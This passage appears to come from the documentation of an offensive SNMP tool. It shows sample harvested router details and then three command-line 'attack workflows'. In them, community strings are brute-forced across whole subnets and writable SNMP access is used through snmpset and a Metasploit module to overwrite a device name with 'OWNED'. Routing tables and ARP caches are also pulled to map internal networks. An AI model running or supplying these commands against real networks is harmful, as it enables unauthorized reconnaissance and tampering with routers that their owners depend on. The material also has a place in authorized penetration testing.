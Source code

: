 ```json
      "device_info": {
        "sysName": "router-core-01",
        "sysDescr": "Cisco IOS Software, Version 15.2",
        "sysLocation": "Server Room A, Rack 3",
        "sysContact": "netadmin@company.com",
        "sysUpTime": "393696000",
        "interfaces": ["GigabitEthernet0/0", "GigabitEthernet0/1"],
        "ip_addresses": ["192.168.1.1", "10.0.0.1"]
      }
    }
  ]
}
```

## Attack Workflows

### Workflow 1: Basic SNMP Discovery
```bash
# 1. Discover SNMP-enabled devices
./snmpseek.py 192.168.0.0/16 --bruteforce -w 100

# 2. Review found communities
cat snmp_creds.txt

# 3. Extract device info
./snmpseek.py -f snmplist.txt --walk

# 4. Review extracted data
cat snmp_info.txt
```

### Workflow 2: Writable SNMP Exploitation
```bash
# 1. Find writable SNMP
./snmpseek.py 10.0.0.0/24 --writable

# 2. Identify writable hosts
grep "WRITE" snmp_creds.txt

# 3. Manual exploitation
snmpset -v2c -c private 10.0.0.10 1.3.6.1.2.1.1.5.0 s "OWNED"

# 4. Or use Metasploit
use auxiliary/scanner/snmp/snmp_set
set COMMUNITY private
set RHOSTS 10.0.0.10
run
```

### Workflow 3: Network Mapping via SNMP
```bash
# 1. Discover SNMP devices
./snmpseek.py --full 192.168.1.0/24

# 2. Extract routing tables
snmpwalk -v2c -c public 192.168.1.1 ipRouteNextHop

# 3. Extract ARP cache
snmpwalk -v2c -c public 192.168.1.1 ipNetToMediaPhysAddress

# 4. Map internal networks
snmpwalk -v2c -c public 192.168.1.1 ipAdEntAddr
```